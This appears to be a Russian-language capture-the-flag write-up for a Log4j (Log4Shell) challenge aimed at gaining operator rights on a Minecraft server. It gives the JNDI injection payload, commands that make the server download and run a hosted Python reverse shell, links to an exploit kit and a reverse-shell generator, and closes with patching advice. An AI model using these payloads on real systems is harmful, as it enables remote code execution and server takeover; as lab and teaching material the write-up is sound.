 # День шестой (Log4j)
-- -
### Цель атаки: 
Получить права оператора (`/op`) на майнкрафт сервере

### Решение:

Уязвимость заключается в неправильном форматировании логов в библиотеке Log4J для Java. Благодаря ошибке можно получить
доступ к протоколу JNDI, что по сути эквивалентно удаленному исполнению Java кода. PoC: `${jndi:ldap://<your-ip>}`
Отправляя строчку с эксплоитом в чате сервера можно получить Reverse Shell (обратный шелл к серверу) и исполнять
произвольные команды на нем. Используя https://www.revshells.com/ генерируем Python3 эксплоит, который заливаем на
наш сервер (в нашем случае это будет https://tmpfiles.org/). Далее используя уязвимость Log4J заставляем сервер скачать
наш эксплоит и исполнить его.

### Итоговый эксплоит:
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget <url с эксплоитом>"`

Отправляем в чат `${jndi:ldap://<url из предыдущего шага>}`

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "python3 <файл с эксплоитом>"`

Отправляем в чат `${jndi:ldap://<url из предыдущего шага>}`

screen/tmux attach to server session

`/op pufit`

### Интсрументы и полезные ссылки
- Онлайн конструктр реверс шелов https://www.revshells.com/
- Экслоит кит https://github.com/pimps/JNDI-Exploit-Kit
- Сайт для временного хранения файлов (и доступа к ним по HTTP) https://tmpfiles.org/


### Способ защиты
- Обновить версию java на всех устройствах
- Обновить Log4j до последней версии
- Не использовать устаревшие версии Java
- Не заходить на недоверенные сервера без патча
